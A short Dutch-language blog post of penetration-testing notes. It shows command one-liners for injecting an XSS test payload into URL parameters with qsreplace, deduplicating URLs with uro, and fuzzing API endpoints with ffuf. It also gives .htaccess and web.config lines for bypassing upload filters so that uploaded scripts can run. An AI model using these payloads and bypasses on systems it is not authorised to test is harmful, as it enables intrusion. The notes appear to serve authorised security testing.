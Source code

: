 ```yaml
---
layout: post
title: "Pentest notes"
date: 2022-07-22
tags: [pentest]
---
```


Het vervangen van bepaalde query parameters in een URL over meerdere URL's met [qsreplace][qsreplace]:

{% highlight ruby linenos %}
Browse website met ZAP of Burp en sla alle URLs op een in txt.
cat urls.txt | qsreplace '<svg onload=alert(1)>'
{% endhighlight %}

---

Zorgen dat alle endpoints unique zijn met [uro][uro]:

{% highlight ruby linenos %}
Browse website met ZAP of Burp en sla alle URLs op een in txt.
cat urls.txt | uro > uniq.txt
{% endhighlight %}

---

Het fuzzen van api endpoints:

{% highlight ruby linenos %}
ffuf -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt -o api-log.txt -of csv -u https://DOMAIN/FUZZ
cat api-log.txt | awk -F ',' '(NR>1) {print $2,$5}' | egrep '200|301|302|403' > api-alive.txt
for url in $(cat api-alive.txt); do ffuf -w /usr/share/seclists/Discovery/Web-Content/api/api-seen-in-wild.txt -o api-endpoint.log -of csv -u https://$url/FUZZ;done
{% endhighlight %}

---
Het bypassen van upload filters

{% highlight ruby linenos %}
Apache door uploaden van een .htaccess file met content: AddType application/x-httpd-php .php
ISS door uploaden van een web.config file met content: <mimeMap fileExtension=".exe" mimeType="application/vnd.microsoft.portable-executable" />
{% endhighlight %}

[qsreplace]: https://github.com/tomnomnom/qsreplace
[uro]: https://github.com/s0md3v/uro